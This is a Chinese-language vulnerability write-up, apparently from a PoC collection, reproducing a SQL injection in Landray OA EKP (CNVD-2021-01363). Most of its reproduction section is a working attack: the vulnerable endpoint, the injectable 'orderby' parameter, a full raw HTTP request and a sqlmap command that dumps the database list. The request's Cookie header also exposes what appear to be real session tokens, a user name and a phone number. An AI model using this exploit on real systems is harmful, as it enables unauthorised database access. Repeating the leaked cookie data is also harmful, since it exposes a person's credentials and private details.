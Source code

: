 # 蓝凌OA-EKP-后台SQL注入漏洞-CNVD-2021-01363

## 漏洞描述

深圳市蓝凌软件股份有限公司数字OA(EKP)存在SQL注入漏洞。攻击者可利用漏洞获取数据库敏感信息。

## 漏洞影响

> [!NOTE]
>
> 测试时间 2021-3-24 前版本

## 漏洞复现

存在SQL注入的 Url为,这里拿官方的演示站点演示漏洞过程

```
https://xxx.xxx.xxx.xxx/km/imeeting/km_imeeting_res/kmImeetingRes.do?contentType=json&method=listUse&orderby=1&ordertype=down&s_ajax=true
```

其中存在SQL注入的参数为 **ordeby** ， 数据包如下

```sql
GET /km/imeeting/km_imeeting_res/kmImeetingRes.do?contentType=json&method=listUse&orderby=1&ordertype=down&s_ajax=true HTTP/1.1
Host: xxx.xxx.xxx.xxx
Connection: close
Pragma: no-cache
Cache-Control: no-cache
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: UM_distinctid=1785f7392888e1-02ece8c7e9a996-5771031-1fa400-1785f73928943d; landray_danyuan=null; landray_guanjianci=null; landray_sorce=baidupinzhuanwy; landray_jihua=null; JSESSIONID=232B6933CF33B5422F9D2649739D48FE; Hm_lvt_223eecc93377a093d4111a2d7ea28f51=1616509114,1616566341,1616566350; Hm_lpvt_223eecc93377a093d4111a2d7ea28f51=1616566350; Hm_lvt_d14cb406f01f8101884d7cf81981d8bb=1616509114,1616566341,1616566350; Hm_lpvt_d14cb406f01f8101884d7cf81981d8bb=1616566507; Hm_lvt_95f4f43e7aa1fe68a51c44ae4eed925d=1616509872,1616509969,1616509973,1616566507; Hm_lpvt_95f4f43e7aa1fe68a51c44ae4eed925d=1616566507; Hm_lvt_22f1fea4412727d23e6a998a4b46f2ab=1616509872,1616509969,1616509973,1616566507; Hm_lpvt_22f1fea4412727d23e6a998a4b46f2ab=1616566507; fd_name=%E5%95%8A%E7%9A%84%E5%93%88; fd_id=1785f817dd0f5a4beaa482646cb9a2d8; nc_phone=15572002383; j_lang=zh-CN; LtpaToken=AAECAzYwNUFEOEZBNjA1QjgxQkFsdW9stJ5e1pcW1hgQi3cOa0iEyAhdZZs=; Hm_lvt_95cec2a2f107db33ad817ed8e4a3073b=1616510026,1616566523; Hm_lpvt_95cec2a2f107db33ad817ed8e4a3073b=1616566523; add_customer=0
```

保存为文件，使用 Sqlmap 跑一下注入 

```
sqlmap -r sql.txt -p orderby --dbs
```

![](蓝凌OA-EKP-后台SQL注入漏洞-CNVD-2021-01363.assets/16273634989290361.jpg)

## 感谢名单

感谢 @Miaòa 师傅的投稿